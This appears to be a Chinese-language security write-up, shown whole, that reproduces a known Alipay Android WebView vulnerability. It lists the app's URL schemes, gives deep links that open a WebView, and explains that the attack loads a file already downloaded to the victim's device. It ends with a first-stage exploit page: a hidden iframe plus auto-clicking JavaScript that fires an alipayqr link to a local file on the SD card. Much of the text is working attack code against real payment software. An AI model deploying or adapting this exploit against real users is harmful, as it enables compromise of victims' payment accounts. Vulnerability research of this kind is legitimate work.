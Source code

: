 ```
<data android:scheme="alipayss" />
<data android:scheme="alipays" />
<data android:scheme="alipayqr" />
<data android:scheme="alipayauth" />
<data android:scheme="alipayre" />
<data android:scheme="https" />
<data android:scheme="alipaylite" />
<data android:scheme="alipay" android:host="merchantpay" />
```

问了一下身边专门做安卓开发的同学说应该不存在java代码里动态设置scheme的方法，所以目标就锁定在了以上几个scheme

于是去查了一下上面几个scheme的相关资料，发现使用如下几个URL Scheme是可以在支付宝中打开Webview的

我也尝试逆向了一下，但是后来发现在网上搜索相关资料就可以找到这个几个scheme的使用方法

ps. 不知道为什么蚂蚁金服的文档中搜不到 <https://open.alipay.com/search/searchDetail.htm?keyword=alipayqr>

```
alipayqr://platformapi/startapp?saId=10000007&clientVersion=3.7.0.0718&qrcode=https%3A%2F%2Fqr.alipay.com%2Faescsnt49njcwynkda%3F_s%3Dweb-other
```

```
alipays://platformapi/startapp?saId=10000007&clientVersion=3.7.0.0718&qrcode=https%253A%252F%252Fqr.alipay.com%252Fbax041244dd0qf8n6ras805b%253F_s%253Dweb-othe
```

```
alipays://platformapi/startapp?appId=20000067&url=http://www.baidu.com
```

一开始一直以为这个漏洞是利用了安卓Webview的漏洞首先从http域跨到了file域，然后在file域中进行进一步利用

但是这和腾讯关于漏洞的描述有些冲突，因为说是可以在没有漏洞的安卓系统上进行攻击

于是仔细观察了腾讯的漏洞演示视频，受害者打开链接后有下载文件的过程，这时候才恍然大悟

对Webview的攻击是直接加载的下载到受害者机器上的本地文件，也就是说文件被加载时就已经处于file域中

后来经过测试之后前两个URL Scheme无法加载file域资源

于是构造第一阶段攻击Exp如下:

exp.html

```
<iframe style="display:none" src="exp.php"></iframe>

<script src="https://cdn.bootcss.com/jquery/3.2.1/jquery.min.js"></script>

<script type="text/javascript">
  $(function(){
    function clicksp(){
      $("#sp").trigger("click");
    }
    setTimeout(clicksp, 500);
  });
</script>

<a href="alipayqr://platformapi/startapp?saId=10000007&clientVersion=3.7.0.0718&qrcode=file:///sdcard/Download/exp2.html"><span id="sp"></span></a>
```
